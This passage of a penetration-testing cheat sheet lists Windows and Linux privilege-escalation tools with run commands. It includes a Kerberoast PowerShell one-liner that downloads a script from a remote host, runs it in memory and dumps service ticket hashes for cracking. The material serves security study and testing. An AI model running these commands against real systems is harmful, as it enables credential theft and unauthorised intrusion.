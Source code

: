 #### [Kerberoast](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

```bash
Import-Module .\Invoke-Kerberoast.ps1; Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.0.0.1/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
```

#### [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```bash
windows-exploit-suggester.py --update
systeminfo > systeminfo.txt
windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
```

#### [Windows Exploit Suggester NG](https://github.com/bitsadmin/wesng)

```bash
wes.py --update
systeminfo > systeminfo.txt
wes.py systeminfo.txt
```

### [Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

#### [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh)

```bash
./lse.sh -l 1 -i
```

#### [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

```bash
./LinEnum.sh
```

#### [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh)

```bash
./linpeas.sh
```

#### [SUDO_Killer](https://github.com/TH3xACE/SUDO_KILLER)

